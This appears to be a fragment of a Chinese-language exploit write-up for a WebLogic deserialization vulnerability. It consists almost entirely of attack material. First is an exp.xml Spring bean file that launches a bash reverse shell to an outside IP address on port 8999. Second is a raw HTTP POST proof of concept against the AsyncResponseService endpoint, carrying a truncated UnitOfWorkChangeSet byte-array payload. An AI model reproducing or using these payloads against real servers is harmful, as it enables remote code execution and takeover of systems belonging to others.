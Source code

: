 exp.xml

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://www.springframework.org/schema/beans">
<bean init-method="start" class="java.lang.ProcessBuilder" id="pb">
    <constructor-arg>
        <list>
            <value>bash</value>
            <value>-c</value>
            <value>bash -i >& /dev/tcp/114.116.24.42/8999 0>&1</value>
        </list>
    </constructor-arg>
</bean>
</beans>
```

还有利用UnitOfWorkChangeSet的POC。

``` xml
POST /_async/AsyncResponseService HTTP/1.1
Host: localhost:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 
Cookie: remember-me=MXPUSANQRVaBJYtUucUgmQ==
Connection: close
Upgrade-Insecure-Requests: 1

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressi
ng" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   <soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:Relates
To>xx</wsa:RelatesTo> <
work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java>
<class><string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string>
<void>
<array class="byte" length="2946">
<void index="0"><byte>-84</byte></void>
<void index="1"><byte>-19</byte></void>
<void index="2"><byte>0</byte></void>
<void index="3"><byte>5</byte></void>
    .....
</array>
</void>
</class>
</java>
</work:WorkContext></soapenv:Header><soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```
